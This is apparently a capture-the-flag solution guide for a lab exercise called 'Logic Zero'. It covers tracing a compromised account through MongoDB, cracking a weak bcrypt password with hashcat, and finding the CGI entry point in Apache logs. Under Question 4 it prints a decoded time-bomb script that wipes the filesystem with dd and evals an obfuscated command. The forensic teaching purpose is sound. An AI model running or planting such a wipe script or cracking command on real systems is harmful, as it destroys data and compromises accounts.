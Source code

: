 # Logic Zero

*Solution Guide*

## Overview

*Logic Zero* requires the competitor to find the intrusion to a zero trust environment. Competitors examine a MongoDB, weak credential hashes, and Apache2 logs.

## Question 1

*What agent's account was compromised? Only enter the three digits.*

1. On the **Pritunl** machine, find the credentials to the web interface by running the command: 

```bash
sudo pritunl-zero default-password
```
2. Using Firefox, browse to `https://zero.merch.codes` and log in with the credentials found in the previous command.

3. Click the **Users** tab. Notice there are ~500 agents. Click **agent-001** to examine the User Info. It shows *Last Active*; therefore, since the attack is underway, we need to find a better way to examine the most recent *Last Active* across all users.

4. On the Pritunl machine's terminal, enter the following command.

```bash
mongo
show databases
use pritunl-zero
show collections
```

5. Then, the following command (within MongoDB) to view the sessions.

```
db.sessions.find()
```
It does not appear that the data within the sessions collection is of much help. 

6. Explore the **users** collection:

```
db.users.find()
```
Here we see multiple **field:value** pairs within each agent that would be helpful. **Username** and **last_active** are very interesting. 

7. Run the following command within MongoDB to view the user who was most recently active.

```
db.users.find().sort({ last_active: -1 }).limit(1).pretty()
```

8. The output may show you your own activity as the *pritunl* user. You may need to explore the _second most recent_ username with the following command.

```
db.users.find().sort({ last_active: -1 }).limit(2).pretty()
```

You should  see `agent-xxx`. The three digits (xxx) are the answer to Question 1.

## Question 2

*What was this agent's weak password that was compromised?*

1. If you aren't in the MongoDB with the agent's information, run the following commands to get back to this location.

```bash
mongo
show databases
use pritunl-zero
show collections
db.users.find().sort({ last_active: -1 }).limit(2).pretty()
```

2. Within the `agent-xxx` data, you should see an encrypted password (e.g., $2a$10$Q7sCARin8uTGnlotr63bDeVtxrPpL0sbckZkqd5vHBH8MOIMu3C7i). Copy this encrypted password (hash) to a file called **hash.txt** on the Kali machine.
3. Since we know this password is four hexadecimal characters, run this command to crack this hash. 

```bash
sudo hashcat -m 3200 -a 3 hash.txt -1 0123456789abcdef ?1?1?1?1
```

It may take up to 30 minutes for this hash to crack. We recommend continuing the challenge while this is cracking.

## Question 3

*What is the filename, not extension, of the web resource utilized to gain initial access?*

1. Navigate to the **apache2** directory using:

```bash
cd /var/log/apache2/
```

2. View the files in this directory:

```bash
ls
```

3. We see two files of interest, **access.log** and **error.log**. 

4. View the contents of access.log.

```bash
cat access.log
```

5. We see tens of thousands of lines. Let's look for only **200 OK** results using the following command.

```bash
cat access.log | grep -a 200
```

6. Now we see results that may contain a 200 HTTP status code. Sifting through these logs, we see the cgi mentioned. Let's find the first cgi log file with a 200 HTTP status code.

```bash
cat access.log | grep -a 200 | grep -a cgi
```

7. Here we see `GET /cgi-bin/2335.cgi` (your four digits will vary). We see commands were passed in by this method. The answer to Question 3, in this example, is `2335`.

## Question 4

*What is the Epoch time (UTC) when the system is set to destroy itself?*

1. Navigate to the **apache2** directory:

```bash
cd /var/log/apache2/
```

2. Within the **access.log** files, you may notice some base32 and/or base64. Decode those strings:

```bash
base32 -d MNUG233EEAVXQIBPOVZXEL3TMJUW4L3UON4XG3DPM4FA====
base64 -d yourstringgoeshere
```

3. You may see **service** and **service.service**. Run the command below to see if service.service is still available on the webserver.

```bash
sudo find / -name service.service
```

You should not be able to find any service.service file on your system (it has been moved/renamed, but we don't know that, yet). 

4. Decode all base32 and base64 strings found in access.log.

```bash
cat access.log | grep -a echo
echo -n base64stringgoeshere | base64 -d
echo -n base32stringgoeshere | base32 -d
```

In one of these files you should get something similar to this:

```bash
#!/bin/bash

#Default tsyslog configuration

tt=1704067200
rt=$((tt - $(date +%s)))

if [[ $rt -gt 0 ]]; then
  sleep $rt
  #Clear cache
  dd IF=/dev/zero OF=/ 
  secret_code="7h15_15_4w350m3!"
  eval "$(echo "$secret_code" | tr 'a-zA-Z0-9' 'n-za-mN-ZA-M5-90-4')"
else
  sleep 86400
  /usr/sbin/tsyslog
fi
```

**tsyslog** is not a real syslog service. As we can see here, the `tt` appears to be a target time in epoch and when the remaining time (`rt`) reaches zero, the `dd` command will overwrite everything with zeros (which is not good). The value assigned to the `tt` variable is the answer to Question 4.
